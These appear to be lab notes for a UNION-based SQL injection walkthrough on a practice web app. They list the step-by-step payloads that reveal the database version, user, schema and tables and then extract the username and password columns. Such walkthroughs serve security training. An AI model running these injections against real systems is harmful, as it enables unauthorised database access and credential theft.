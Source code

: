 Determine the number of columns:

```sql
1' union select 1,2 -- -
```

![[Pasted image 20241103115404.png]]

View the version number:

```sql
1' union select 1,@@version -- -
```

![[Pasted image 20241103115433.png]]

Find user db is running under:

```sql
1' union select 1,(select user()) -- -
```

![[Pasted image 20241103115458.png]]

Find database name:

```sql
1' union select 1,(SELECT database()) -- -
```

![[Pasted image 20241103115516.png]]

Find all tables available within working database:

```sql
1 'union select table_name , null from information_schema.tables -- - 
```

![[Pasted image 20241103115606.png]]

To view the columns for the users table:

```sql
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' -- -
```
![[Pasted image 20241103115644.png]]

To extract the data from the username and password column:

```sql
1 ' UNION SELECT user, password FROM users -- -
```

![[Pasted image 20241103115658.png]]

Or to display usernames and password on a single line:

```bash
1' union select null,CONCAT(user,':',password) FROM users -- - 
```

![[Pasted image 20241103115934.png]]
